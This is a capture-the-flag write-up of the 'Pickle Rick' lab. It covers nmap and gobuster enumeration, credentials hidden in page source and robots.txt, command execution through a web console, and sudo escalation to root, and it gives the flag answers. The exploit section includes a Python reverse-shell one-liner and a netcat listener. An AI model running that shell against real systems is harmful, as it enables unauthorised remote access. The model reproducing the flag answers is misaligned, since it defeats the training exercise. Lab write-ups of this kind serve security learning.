

# Pickle Ricke



```bash
export IP=10.10.195.58
```


--------------------------------------------------------------------------------
## Nmap
```bash
nmap -sC -sV -oN nmap/initial $IP
```

```
# Nmap 7.94SVN scan initiated Sat Jun 29 11:26:35 2024 as: nmap -sC -sV -oN nmap/initial 10.10.195.58
Nmap scan report for 10.10.195.58
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:f8:8f:b5:bc:41:8d:7d:42:5e:42:ee:34:4f:6f:0a (RSA)
|   256 65:61:cb:aa:45:7f:cc:e7:bb:16:7a:65:d9:a0:f2:23 (ECDSA)
|_  256 42:32:09:7d:39:d8:63:8d:79:5a:fe:f2:a7:c8:f1:b5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 29 11:27:15 2024 -- 1 IP address (1 host up) scanned in 39.90 seconds
```

--------------------------------------------------------------------------------
## Clue

<details>
    <summary>Clue in source code:</summary>

    ```html
    <!--
        Note to self, remember username!

        Username: R1ckRul3s
    -->
    ```

</details>

<details>
    <summary>Clue in robots.txt:</summary>

    ```
    Wubbalubbadubdub
    ```

</details>

--------------------------------------------------------------------------------
## Gobuster

```bash
gobuster dir --url $IP --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```
```
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.195.58/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```
##### Trying to log in `http://10.10.195.58/login.php` 
<details>
    <summary>Success login:</summary>

    ```
    R1ckRul3s
    Wubbalubbadubdub
    ```

</details>


##### Redirected to `/portal.php` wich contains a terminal window

--------------------------------------------------------------------------------
## Webpage console

```
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ whoami
www-data
```

## Exploit
Reference:
[https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl)

Locally
```bash
nc -nlvp 9001
```

Executing the command in the web console field
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```

-------------------------------------------------------------------------------
## Privilege Escalation

```bash
www-data@ip-10-10-195-58:/home/rick$ ./linpeas.sh

User www-data may run the following commands on ip-10-10-195-58:
    (ALL) NOPASSWD: ALL
```

--------------------------------------------------------------------------------
## Spoiler alert

<details>
    <summary>What is the first ingredient Rick needs?</summary>

    ```
    http://10.10.195.58/Sup3rS3cretPickl3Ingred.txt
    `mr. meeseek hair`
    ```

</details>

<details>
    <summary>Whats the second ingredient Rick needs?</summary>

    ```
    /home/rick$ cat second\ ingredients
    1 jerry tear
    ```

</details>

<details>
    <summary>Whats the final ingredient Rick needs?</summary>

    ```
    /root/
    3rd ingredients: fleeb juice
    ```

</details>


